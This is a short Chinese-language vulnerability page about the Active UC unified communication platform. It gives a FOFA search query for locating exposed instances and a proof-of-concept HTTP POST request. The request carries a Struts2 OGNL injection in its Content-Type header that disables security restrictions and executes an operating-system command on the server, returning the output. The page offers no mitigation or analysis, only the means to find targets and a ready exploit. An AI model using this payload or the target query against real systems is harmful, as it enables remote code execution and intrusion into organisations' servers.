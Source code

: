<languages />

<translate>

漏洞影響
--------

</translate> Active UC

FOFA
----

    title="网动统一通信平台(Active UC)"

POC
---

    POST /acenter/index.action HTTP/1.1
    Cookie: SessionId=96F3F15432E0660E0654B1CE240C4C36
    User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
    Charsert: UTF-8
    Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}; boundary=---------------------------18012721719170
    Cache-Control: no-cache
    Pragma: no-cache
    Host:
    Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
    Connection: keep-alive
    Content-Length: 196
    -----------------------------18012721719170
    Content-Disposition: form-data; name="pocfile"; filename="text.txt"
    Content-Type: text/plain
    xxxxxxx
    -----------------------------18012721719170